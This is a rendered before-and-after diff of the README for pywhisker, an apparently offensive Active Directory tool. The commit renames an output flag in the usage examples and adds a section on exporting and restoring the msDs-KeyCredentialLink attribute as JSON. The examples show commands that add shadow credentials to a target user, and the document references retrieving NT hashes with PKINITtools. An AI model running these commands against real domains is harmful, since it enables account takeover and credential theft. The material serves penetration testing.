

Before and after one commit to ShutdownRepo/pywhisker, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 96% size. Drawn GitHub-style; pictures changed too: .assets/export.png (added), .assets/import.png (added); blank space fills up the shorter version.

Commit message:
Added import and export features

````diff
--- a/README.md
+++ b/README.md
@@ -114,7 +116,7 @@ The certificate can be exported in a PFX format (#PKCS12, certificate + private
 ### Example with the PFX format
 
 ```shell
-python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
+python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test1
 ```
 
 ![](./.assets/add_pfx.png)
@@ -131,7 +133,7 @@ python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df6
 ### Example with the PEM format
 
 ```shell
-python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
+python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test2 --export PEM
 ```
 
 ![](./.assets/add_pem.png)
@@ -144,6 +146,18 @@ python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a155
 ```
 
 ![](./.assets/add_pem_gettgtnthash.png)
+
+
+### Import and Export
+
+KeyCredentials stored in the `msDs-KeyCredentialLink` attribute can be parsed, structured and saved as JSON.
+
+![](./.assets/export.png)
+
+The JSON export can then be used to restore the `msDs-KeyCredentialLink` attribute in the state it was at the time of export.
+
+![](./.assets/import.png)
+
 
 # Relayed authentication
 
````
Also changed, not shown: other parts of README.md (+16 -14 lines), 1 other file.
